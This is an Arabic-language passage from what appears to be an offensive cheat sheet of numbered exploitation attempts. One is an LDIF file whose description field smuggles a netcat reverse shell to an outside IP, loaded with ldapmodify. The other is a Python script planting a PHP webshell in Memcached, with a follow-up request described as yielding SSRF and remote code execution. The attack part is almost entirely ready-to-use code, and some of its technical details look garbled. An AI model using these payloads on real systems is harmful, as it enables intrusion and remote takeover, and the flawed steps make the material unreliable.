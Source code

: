### ⚙️ الفكرة:
استغلال LDIF ملفات الإدخال لتنفيذ أوامر غير مباشرة.

### 💥 الاستغلال:
ملف `exploit.ldif`:
```
dn: cn=pwned,dc=test,dc=com
changetype: add
objectClass: person
cn: pwned
sn: exploit
description: $(nc -e /bin/bash 1.2.3.4 4444)
```

ثم:
```bash
ldapmodify -h target.com -p 389 -f exploit.ldif
```

### 📌 النتيجة:
- تنفيذ الأمر إن كان هناك Hook على description أو استدعاء خارجي.

---

# 🧪 المحاولة #10: Memcached + SSRF + RCE

### ⚙️ الفكرة:
Memcached بدون تشفير يسمح بوضع بيانات ضارة تؤدي إلى تنفيذ SSRF.

### 💥 الاستغلال:
إدخال بيانات ضارة في Memcached:
```python
import socket

data = " 2592000 1 1\r\n<?php system($_GET['cmd']);?>\r\n"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("target.com", 11211))
s.send(b'set /aaaa 0 0 ' + str(len(data)).encode() + b'\r\n' + data.encode())
s.close()
```

ثم:
```http
GET http://target.com/aaaa HTTP/1.1
Host: attacker.com
```

### 📌 النتيجة:
- تنفيذ Webshell.
- الوصول إلى Shell.

---